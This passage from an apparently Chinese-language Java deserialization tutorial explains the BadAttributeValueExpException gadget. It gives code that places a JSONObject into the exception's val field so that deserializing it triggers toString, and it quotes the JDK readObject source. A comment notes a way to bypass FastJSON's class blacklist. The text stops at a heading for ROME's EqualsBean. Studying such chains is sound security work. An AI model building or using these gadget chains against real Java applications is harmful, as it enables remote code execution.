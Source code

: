 #### BadAttributeValueExpException

**JDK 原生可用**

这个就很简单了，`BadAttributeValueExpException.readObject()`直接走到它里面对象的 toString

代码如下

```plain
Object tpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("gg",tpl);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,jsonObject);
//      用于 Reference 包裹绕过 FastJSon 高版本 resolveClass 黑名单检查，from Y4tacker
/*        HashMap hashMap = new HashMap();
        hashMap.put(tpl,poc);*/
        serialize(poc);
        unserialize("ser.bin");
```

`BadAttributeValueExpException.readObject()`

```plain
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString(); //在这里调用了里面对象的toString()方法
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

#### EqualsBean

**依赖于 ROME，在其 1.12.0 版本前均可用**
